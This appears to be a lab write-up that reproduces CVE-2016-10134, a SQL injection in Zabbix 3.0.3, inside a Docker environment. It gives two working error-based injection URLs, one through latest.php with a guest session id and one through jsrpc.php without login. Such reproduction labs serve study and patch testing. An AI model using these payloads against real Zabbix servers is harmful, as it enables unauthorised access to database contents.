


# zabbix latest.php SQL Injection Vulnerability (CVE-2016-10134)

Zabbix is ​​a server monitoring software, which consists of modules such as server, agent, and web. The web module is written by PHP to display the results in the database.

## Operating environment

Run the following command to start zabbix 3.0.3:

```
Docker-compose up -d
```

After executing the command, the database (mysql), zabbix server, zabbix agent, zabbix web will be started. If the memory is slightly smaller, there may be a case where a container hangs. We can check the container status via `docker-compose ps` and restart the container with `docker-compose start`.

## Recurring vulnerabilities

Visit `http://your-ip:8080` and log in to the guest account with the account `guest` (password is empty).

After logging in, check the `zbx_sessionid` in the cookie and copy the 16 characters:



Use these 16 characters as the value of sid, access `http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()) , 0)`, visible successful injection:



This vulnerability can also be triggered by jsrpc.php without logging in: `http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0 , concat(0xa,user()),0)`:

